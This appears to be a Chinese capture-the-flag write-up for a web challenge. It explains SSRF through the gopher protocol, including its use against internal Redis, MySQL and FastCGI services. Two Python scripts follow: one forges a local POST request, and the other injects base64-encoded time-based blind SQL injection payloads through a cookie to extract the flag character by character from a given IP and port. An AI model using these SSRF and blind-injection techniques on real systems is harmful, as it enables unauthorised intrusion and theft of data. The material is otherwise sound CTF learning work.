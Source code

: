 主页没有回显，只有一句话：

**you are not an inner user, so we can not let you have identify~**.意思是需要以本地用户访问。这里又没有rce、越权、文件包含等。那么很有可能有ssrf。

gopher协议和ssrf联合使用

> gopher协议是一种信息查找系统，他将Internet上的文件组织成某种索引，方便用户从Internet的一处带到另一处。在WWW出现之前，Gopher是Internet上最主要的信息检索工具，Gopher站点也是最主要的站点，使用tcp70端口。利用此协议可以攻击内网的 Redis、Mysql、FastCGI、Ftp等等，也可以发送 GET、POST 请求。这拓宽了 SSRF 的攻击面

利用:
攻击内网的 Redis、Mysql、FastCGI、Ftp等等，也可以发送 GET、POST 请求
发送GET请求和POST请求
我们现在最多看到使用这个协议的时候都是在去ssrf打redis shell、读mysql数据的时候

- **gopher协议的格式：gopher://IP:port/_TCP/IP数据流**
- GET请求:
  构造HTTP数据包,URL编码、替换回车换行为%0d%0a，HTTP包最后加%0d%0a代表消息结束
- POST请求
  POST与GET传参的区别：它有4个参数为必要参数
  需要传递Content-Type,Content-Length,host,post的参数
  Content-Length和POST的参数长度必须一致

先用一个脚本试试

```python
import urllib.parse

host = "127.0.0.1:80"
content = "uname=admin&passwd=admin"
content_length = len(content)

payload =\
"""POST /index.php HTTP/1.1
Host: {}
User-Agent: curl/7.43.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: {}

{}
""".format(host,content_length,content)

tmp = urllib.parse.quote(payload) #对payload中的特殊字符进行编码
new = tmp.replace('%0A','%0D%0A') #CRLF(换行)漏洞
result = 'gopher://127.0.0.1:80/'+'_'+new
result = urllib.parse.quote(result)# 对新增的部分继续编码
print(result)

```

然后可以用cookie注入

```python
import urllib.parse
import requests
import time
import base64

host = "127.0.0.1:80"
content = "uname=admin&passwd=admin"
content_length = len(content)

payload =\
"""GET /index.php HTTP/1.1
Host: localhost:80
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: this_is_your_cookie"""

tmp = urllib.parse.quote(payload) #对payload中的特殊字符进行编码
new = tmp.replace('%0A','%0D%0A') #CRLF(换行)漏洞
result = 'gopher://127.0.0.1:80/'+'_'+new+"="
result = urllib.parse.quote(result)# 对新增的部分继续编码
print(result)

url="http://61.147.171.105:60622/use.php?url="
flag=""
for pos in range(1,50):
    for i in range(33,127):
        #poc="') union select 1,2,if(1=1,sleep(5),1) # "

        #security
        #poc="') union select 1,2,if(ascii( substr((database()),"+str(pos)+",1) )="+str(i)+",sleep(2),1) # "

        #flag
        #poc="') union select 1,2,if(ascii( substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),"+str(pos)+",1) )="+str(i)+",sleep(2),1) # "
        
        poc="') union select 1,2,if(ascii( substr((select * from flag),"+str(pos)+",1) )="+str(i)+",sleep(2),1) # "
        
        bs = str(base64.b64encode(poc.encode("utf-8")), "utf-8")
        final_poc=result+bs+"%3B%250d%250a"
        t1=time.time()
        res=requests.get(url+final_poc)
        t2=time.time()
        if(t2-t1>2):
            flag+=chr(i)
            print(flag)
            break
print(flag)
```

太难了感觉不会

